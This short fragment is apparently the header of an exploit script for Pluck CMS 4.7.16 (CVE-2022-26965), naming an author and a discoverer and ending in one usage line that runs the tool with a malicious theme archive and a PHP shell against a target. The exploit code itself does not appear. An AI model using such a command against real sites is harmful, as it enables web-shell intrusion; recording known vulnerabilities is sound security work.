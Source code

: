 + Author: Jack Potter
+ Original discovery: Ashish Koli (Shikari)
+ Version: 4.7.16
+ CVE: CVE-2022-26965

+ Example: python fullPluckStager.py -t 127.0.0.1 --password pass1 --theme /theme/bestfriends.tar.gz --shell /shell/shell.php -u /pluck-4.7.16-dev5
